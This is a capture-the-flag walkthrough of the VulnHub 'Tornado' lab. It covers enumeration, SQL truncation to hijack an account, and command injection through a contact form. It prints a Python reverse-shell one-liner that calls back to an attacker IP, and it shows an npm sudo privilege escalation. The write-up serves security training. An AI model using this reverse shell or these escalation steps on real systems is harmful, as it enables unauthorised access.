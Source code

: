 # Torando 
[Room Link](https://www.vulnhub.com/entry/ia-tornado,639/)

![image](https://user-images.githubusercontent.com/5285547/121968926-21f79300-cd6b-11eb-88a2-531041557970.png)


## Enumeration

Let's start with some enum!

### Nmap
```bash
nmap -p- -v 192.168.56.122
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Gobuster

```bash
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 10701]
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.122/manual/]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.56.122/javascript/]
/server-status        (Status: 403) [Size: 279]                                        
/bluesky              (Status: 301) [Size: 318] [--> http://192.168.56.122/bluesky/] 
```

bluesky? lets check it out

```bash
gobuster dir -u http://192.168.56.122/bluesky  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```

```bash
/index.html           (Status: 200) [Size: 14979]
/login.php            (Status: 200) [Size: 824]  
/contact.php          (Status: 302) [Size: 2034] [--> login.php]
/about.php            (Status: 302) [Size: 2024] [--> login.php]
/signup.php           (Status: 200) [Size: 825]                 
/css                  (Status: 301) [Size: 322] [--> http://192.168.56.122/bluesky/css/]
gobuster dir -u http://192.168.56.122/  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x /imgs                 (Status: 301) [Size: 323] [--> http://192.168.56.122/bluesky/imgs/]
/js                   (Status: 301) [Size: 321] [--> http://192.168.56.122/bluesky/js/]  
/logout.php           (Status: 302) [Size: 0] [--> login.php]                            
/dashboard.php        (Status: 302) [Size: 2024] [--> login.php]                         
/port.php             (Status: 302) [Size: 2098] [--> login.php]   
```

Nice, we have a signup.php and login.php. Looks like a good place to start.  
Lets create an account and check the web app out. 

http://192.168.56.122/bluesky/

![image](https://user-images.githubusercontent.com/5285547/121968941-2d4abe80-cd6b-11eb-9c53-2be3f22bbcc6.png)

http://192.168.56.122/bluesky/signup.php

![image](https://user-images.githubusercontent.com/5285547/121969063-700c9680-cd6b-11eb-95eb-4f10ec2fa170.png)

After registering and going to login.php we get a dashbaord interface.

![image](https://user-images.githubusercontent.com/5285547/121969202-afd37e00-cd6b-11eb-9f1c-4a4443556bc1.png)

![image](https://user-images.githubusercontent.com/5285547/121969243-c11c8a80-cd6b-11eb-8e4b-d235c460b5ff.png)

![image](https://user-images.githubusercontent.com/5285547/121969267-d2659700-cd6b-11eb-996a-eea16e5413c9.png)

![image](https://user-images.githubusercontent.com/5285547/121969288-dee9ef80-cd6b-11eb-9461-ddcb1d8576e0.png)

Ok, so the contact form is not working and not much else is present apart from the hint for LFI. After testing I could not find any LFI vulnerability.  
Checking the source code of the web pages, we see one comment out of place on the portfolio.php page. 

```html
<!-- /home/tornado/imp.txt -->
```

Now the LFI makes sense, after trying a few variations we can get the working payload as

```bash
http://192.168.56.122/~tornado/imp.txt
```

![image](https://user-images.githubusercontent.com/5285547/121969565-7bac8d00-cd6c-11eb-882b-bd3585f0d9ba.png)

Now we have a list of what looks like varified users. Lets test the accounts and see if any have higher prividledges.
Using Burp community I captured the signup.php request and sent it to intruder so i can see if i can make the account on the list.  
It seemded none had extra access we see jacob@tornado, admin@tornado, hr@tornado are already registered.  
In the requests response I noticed a 'name:-13' element. On successful signup it was 'name:-15'

![image](https://user-images.githubusercontent.com/5285547/121970450-7d775000-cd6e-11eb-91c5-4eff2081d8b9.png)

I then tried to edit the source code with dev tools (F12) field to allow more charaters in the email field.
Changing the charate limit to 20 then trying again with 'jacob@tornado a' we can make a new acocunt. After now loggin in with jacob, 
the contact form works. 

![image](https://user-images.githubusercontent.com/5285547/121970990-a815d880-cd6f-11eb-9065-c3f320f98b6e.png)

![image](https://user-images.githubusercontent.com/5285547/121971000-b06e1380-cd6f-11eb-9535-e0f15dc61742.png)

Using tcpdump we can see if we get any ping back to our machine, which we do.

```bash
sudo tcpdump -i eth1
```

![image](https://user-images.githubusercontent.com/5285547/121971233-2e321f00-cd70-11eb-983c-5540275aede0.png)

## User

Looks like we can get a reverse connection. 

Payload
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
kill current terminal
```
Ctrl + z
```
echo raw stty then forground it
```
stty raw -echo;fg
```
select terminal
```
xterm
```
when you get the terminal back enter
```
export TERM=xterm
```

![image](https://user-images.githubusercontent.com/5285547/121971512-c3351800-cd70-11eb-8e80-f06ad6df8344.png)

Enumerating the system we quickly see our priv esc route on the machine. 

![image](https://user-images.githubusercontent.com/5285547/121972155-4acf5680-cd72-11eb-86d2-0ce04c48c006.png)


First i created an index.js file  
cd /tmp  
mkdir shell  
echo 'module.exports = install could be dangerous' > index.js  
cp index.js shell  

Now we need a package.json file and chmod to make it executable, then we can run the sudo command to user.

```bash
sudo -u catchme npm run-script shell
```

![image](https://user-images.githubusercontent.com/5285547/121973542-6c7e0d00-cd75-11eb-9fd0-e5a514ec3277.png)

![image](https://user-images.githubusercontent.com/5285547/121973630-a3ecb980-cd75-11eb-9039-3ad591d17b11.png)

We see a 'enc.py'

```bash
cat enc.py
```

```bash
s = "abcdefghijklmnopqrstuvwxyz"
shift=0
encrypted="hcjqnnsotrrwnqc"
#
k = input("Input a single word key :")
if len(k) > 1:
        print("Something bad happened!")
        exit(-1)

i = ord(k)
s = s.replace(k, '')
s = k + s
t = input("Enter the string to Encrypt here:")
li = len(t)
print("Encrypted message is:", end="")
while li != 0:
        for n in t:
                j = ord(n)
                if j == ord('a'):
                        j = i
                        print(chr(j), end="")
                        li = li - 1

                elif n > 'a' and n <= k:
                        j = j - 1
                        print(chr(j), end="")
                        li = li - 1
#----snip

Seeing this was a ceasar cipher i wrote a quick python script to guess the key for me. 

```python3
import string

alphabet = string.ascii_lowercase  # "abcdefghijklmnopqrstuvwxyz"
encrypted = "hcjqnnsotrrwnqc"  # message
enc_len = len(encrypted)  # msg length

for i in range(40):
    plain_text = ""
    for c in encrypted:
        if c.islower():
            # find the position in 0-25
            c_unicode = ord(c)
            c_index = ord(c) - ord("a")
            # perform the negative shift
            new_index = (c_index - i) % 26
            # convert to new character
            new_unicode = new_index + ord("a")
            new_character = chr(new_unicode)
            # append to plain string
            plain_text = plain_text + new_character
        else:
            # since character is not uppercase, leave it as it is
            plain_text += c
    print(f"ID:{i} - {plain_text}")
```

![image](https://user-images.githubusercontent.com/5285547/121975840-7b1af300-cd7a-11eb-8d84-897fb52460cb.png)

The password wasn't 100% and will require some guess work, but that's root and the last flag! 

![image](https://user-images.githubusercontent.com/5285547/121976051-ef559680-cd7a-11eb-9eeb-4a11cbfb7d92.png)


Hope you liked the guide. Happy hacking :)
